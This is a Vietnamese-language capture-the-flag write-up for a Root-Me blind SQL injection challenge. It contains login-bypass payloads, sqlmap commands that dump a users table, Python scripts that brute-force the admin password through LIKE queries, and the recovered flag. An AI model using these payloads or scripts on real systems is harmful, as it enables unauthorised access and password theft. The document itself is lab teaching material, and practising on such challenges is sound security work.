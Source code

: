 # SQL-Blind

Point: 50

Authentication v 0.02

Statement: Retrieve the administrator password.

# Overview:

![image](https://user-images.githubusercontent.com/115911041/234175477-7497d7e8-27d7-44b5-8711-6c8bcbdcc3cd.png)

Form của challenge cho ta trang web có chức năng login.Dự đoán query của bài này

`SELECT ... from ... where username=... and password = ...`

Vậy ta có thê khai thác lỗ hổng ở phần này. Mình sẽ thử fuzz thử ở phần login

`' admin or 1=1--`

![image](https://user-images.githubusercontent.com/115911041/234175844-4bd9a90b-f777-4b84-879f-65b3941f3cb3.png)

Có báo lỗi và ta thấy database bài này đang chạy SQLite3.Mình sẽ thử fuzz thêm nữa

`' or 1=1--`

![image](https://user-images.githubusercontent.com/115911041/234176024-6e5da0f2-79b1-47d9-a831-c735fd7d6983.png)

Adu mình vào được user1 nhưng mà hâu như trong đây không có gì đáng chú ý.

Vậy bài này ta có thể khai thác ở phần login. Challenge lần này là `Blind`. Ý tưởng là ta sẽ cắt các kí tự đầu của password rồi đem đi so sánh, nếu password đó trả về là "Welcome back Admin" thì nó sẽ là password đúng. Vậy ta có thể dùng toán tử [LIKE](https://laptrinhtudau.com/toan-tu-like-trong-sql/)  dựa trên idea đó. Hoặc dùng [SQLmap](https://github.com/sqlmapproject/sqlmap)

# Solution:

# 1ST

Bước đầu cần xác định số column

`admin' order by 2 --` hoặc ` 'order by 3--`

![image](https://user-images.githubusercontent.com/115911041/234177032-44fc97f6-2a26-417e-a452-8c9f3a922b7b.png)

Cái này mình rùa @@ sao vào được admin lunnnn!!!. Nhưng mà không có gì có ích mấy useless vcl. Nhưng kết quả cho ra, thì ta biết là có 2 column.

Bài này sử dụng phương thức POST để truyền truy vấn nên ta sẽ bắt bằng burpsuite.Tại request ta thấy ta truyền vào 2 payload là username và password. Ta sẽ sử dụng sqlmap để thực hiện khai thác bài này.

![image](https://user-images.githubusercontent.com/115911041/234178081-235ce51f-1136-41e7-83c6-e7e1a19e8361.png)

Trước hết copy phần request lưu vào 1 file, ở đây là file bind.txt. Sau đó mở sqlmap lên, tại đây là sử dụng `options -r` để đọc file. Nhớ cd vào file `sqlmap-dev` mới sử dụng được nhaaaa. Gõ lệnh:

`python3 sqlmap.py -r Blind.txt --dbs`

![image](https://user-images.githubusercontent.com/115911041/234183697-a8766aa4-da42-4672-8486-f1df3bff66f1.png)

Kết quả trả về cho ta thấy trang web bị lỗi time-based blind SQL injection. Không có database trả về, tuy nhiên nó gợi ý cho chúng ta khai thác luôn tên bảng. Ta gõ lệnh:

`python sqlmap.py -r Blind.txt --tables`

![image](https://user-images.githubusercontent.com/115911041/234186948-79de7789-1496-4ca9-b78c-67e5099e6117.png)

Kết quả trả về 1 bảng là users. Ta thực hiện dump toàn bộ dữ liệu trong bảng ra

`python sqlmap.py -r Blind.txt -T users --dump`

![image](https://user-images.githubusercontent.com/115911041/234194016-dc38c959-707d-4b56-9a4c-64477eec96fb.png)

Và ta đã có flag `e2azO93i`

# 2nd:

Và như mình đã nói ở trên các bạn có thể dùng toán tử LIKE để làm bài. Mình sẽ làm ở đây:
```
import sys
import requests
import string

URL='http://challenge01.root-me.org/web-serveur/ch10/'
character_list = string.printable
pw = ''
tmpPassword = ''

while (True):
    for char in character_list:
        tmpPassword = pw + char
        data = {
            'username':"admin' and password LIKE '"+ tmpPassword + "%'--",
            'password': 'asdasdasdasds'
        }
        http = requests.post(url = URL, data = data)
        if http.text.find('Welcome back admin !</h2><h3>Your informations :</h3><p>- username : admin</p><br />Hi master ! <b>To validate the challeng')!=-1:
            pw = tmpPassword
            print("Matched:",pw)
            break
    print("Finished!")
```

Sau đó mình có kết quả là `e2azo93i`. Nhưng lưu ý ở đây là LIKE không xác định được uppercase hay lowercase. Vậy thì ta brute force lại 1 lần nữa.Trong password có 5 kí tự thường vậy thì 2^5 = 32 trường hợp.

```
 # Step 2: Generate password

import sys
import requests
import string

URL='http://challenge01.root-me.org/web-serveur/ch10/'   

listPassword = []
strPassword = ''
for c1 in ['e', 'E']:
    for c3 in ['a', 'A']:
        for c4 in ['z', 'Z']:
            for c5 in ['o', 'O']:
                for c8 in ['i', 'I']:
                    strPassword = c1 + '2' + c3 + c4 + c5 + '93' + c8
                    listPassword.append(strPassword)
                    
print("### Start to attack ###")
for password in listPassword:
    data = {
        'username':"admin' and password='"+ password + "'--",
        'password': 'wedontneedthis'
    }
    http = requests.post(url = URL, data = data)
    if http.text.find('Welcome back admin !</h2><h3>Your informations :</h3><p>- username : admin</p><br />Hi master ! <b>To validate the challeng')!=-1:
        print("Got it: ", password)
```

![image](https://user-images.githubusercontent.com/115911041/234212578-8eab86ff-6e9b-4406-96c0-baf95c81f17e.png)

Và ta đã ra được flag.

